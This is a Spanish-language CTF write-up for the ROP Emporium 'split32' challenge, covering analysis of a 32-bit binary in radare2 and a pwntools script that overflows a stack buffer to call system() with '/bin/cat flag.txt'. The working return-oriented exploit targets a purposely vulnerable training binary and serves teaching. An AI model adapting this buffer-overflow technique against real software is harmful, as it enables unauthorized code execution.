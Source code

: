 ```yaml
---
layout: post
title: Split32 - RopEmporium
tags: [ctf, rev, ropemporium]
---
```


**Autor**: RopEmporium \\
**Challenge**: 2

![img](/imgs/write-ups/ropemporium/split32/split32.png#center)

## Introducción

Al igual que en el desafío anterior, las herramientas que voy a usar son **Radare2** y **PwnTools**.

Desde el siguiente enlace de me descargo un zip con el binario y la bandera, **[Split](https://ropemporium.com/challenge/split.html)**. En este writeup resuelvo la version **x86**.

## Información del binario

```
kali@kali:~/Desktop/ropemporium$ rabin2 -I split32 
arch     x86
baddr    0x8048000
binsz    6256
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
nx       true
os       linux
pic      false
relocs   true
relro    partial
rpath    NONE
sanitize false
static   false
stripped false
subsys   linux
va       true
```

Volvemos a ver que **nx** está activado, por lo que el stack no es ejecutable. También compruebo que efectivamente su arquitectura es **x86**.

## Ejecución

Al ejecutar el binario me muestra un texto y luego me pide una entrada.

```
kali@kali:~/Desktop/ropemporium$ ./split32                                                   
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> LordP4
Thank you!

Exiting
```

La ejecución no es muy diferente al caso anterior.

## Funciones

Listo las funciones dentro de radare2.

```
[0xf7f1b450]> afl
[...]
0x080485ad    1 95           sym.pwnme
[...]
0x0804860c    1 25           sym.usefulFunction
[...]
0x08048546    1 103          main
[...]
```

Otra vez, tenemos 2 funciones interesantes a parte del main.

### Main

![img](/imgs/write-ups/ropemporium/split32/main.png#center)

**1)** Anoto esta dirección que será la que tenga que sobreescribir en el stack.

### Pwnme

![img](/imgs/write-ups/ropemporium/split32/pwnme.png#center)

En las marcas **1** y **2** vemos el tamaño reservado para la variable (0x20) y el tamaño de la entrada del usuario(0x60).

### UsefulFunction

![img](/imgs/write-ups/ropemporium/split32/useful.png#center)

En esta función ya comienza lo divertido. Vemos que otra vez carga una cadena con un comando a ejecutar, pero esta vez es **/bin/ls**. Pero este comando no nos sirve para leer el archivo "flag.txt" por lo que hay que utilizar otra cadena que por conveniencia ya se encuentra en el binario.

![img](/imgs/write-ups/ropemporium/split32/flag.png#center)

Tendremos que pasar la cadena "/bin/cat flag.txt" a la llamada a **system()**.

## Explotación

Para realizar la explotación, creo un script en python en el que utilizaré **pwntools**.

En este desafío no utilizo la dirección del comienzo de la funcion **sym.usefulFunction** dado que se cargaría el comando **/bin/ls**. En este caso hay que cargar la dirección de **sym.imp.system** directamente, pero antes de eso, en el stack debería estar la dirección en la que se encuentra el comando que quiero ejecutar ("/bin/cat flag.txt"). Para conseguir esto, añado la dirección del comando después de sobreescribir la dirección de retorno.

exploit.py

```python
#!/bin/python3

from pwn import *

p = process("./split32")
p.recvuntil(">")

payload = b""
payload += b"A" * 44       # Padding
payload += p32(0x0804861a) # 0x0804861a call sym.imp.system
payload += p32(0x0804a030) # 0x0804a030 .data  ascii "/bin/cat flag.txt"

p.sendline(payload)

print(p.recvall())
```

## Solución

Al ejecutarlo, obtenemos la bandera.

```
kali@kali:~/Desktop/ropemporium$ python3 exploit.py
[+] Starting local process './split32': pid 55324
/home/kali/Desktop/ropemporium/exploit.py:4: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil(">")
[+] Receiving all data: Done (45B)
[*] Stopped process './split32' (pid 55324)
b' Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

Y con esto termina mi solución. :)
